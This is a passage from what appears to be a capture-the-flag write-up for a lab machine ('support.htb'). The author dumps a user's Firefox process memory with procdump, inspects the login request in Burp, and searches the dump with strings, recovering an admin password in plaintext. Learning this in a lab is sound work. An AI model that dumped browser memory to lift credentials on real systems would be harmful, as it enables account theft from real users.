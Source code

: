 Appears `support\chase` has Firefox sessions. This may mean they are currently accessing the webpage. Let's see if we can lift any credentials from their session?

First, dump the session using `procdump64.exe`

```powershell
PS C:\Users\Chase\Downloads> .\procdump64.exe -ma 748 firefox.dmp -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[22:07:37] Dump 1 initiated: C:\Users\Chase\Downloads\firefox.dmp
[22:07:37] Dump 1 writing: Estimated dump file size is 331 MB.
[22:07:38] Dump 1 complete: 331 MB written in 1.5 seconds
[22:07:39] Dump count reached.
```

Let's also view the HTTP packets being sent when you attempt to authenticate to the web application. I intercept using Burp:

```
POST /login.php HTTP/1.1
Host: 10.10.10.149
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://10.10.10.149
Connection: close
Referer: http://10.10.10.149/login.php
Cookie: PHPSESSID=9lnml006el4poreg3csa3bh8qn
Upgrade-Insecure-Requests: 1

login_username=cerb%40email.com&login_password=superpassword&login=
```

Looks like `login_password` is the POST request field which contains the password. Let's try to `grep` for this field in `firefox.dmp`

```bash
$ strings firefox.dmp
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
O^privateBrowsingId=1,p,:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
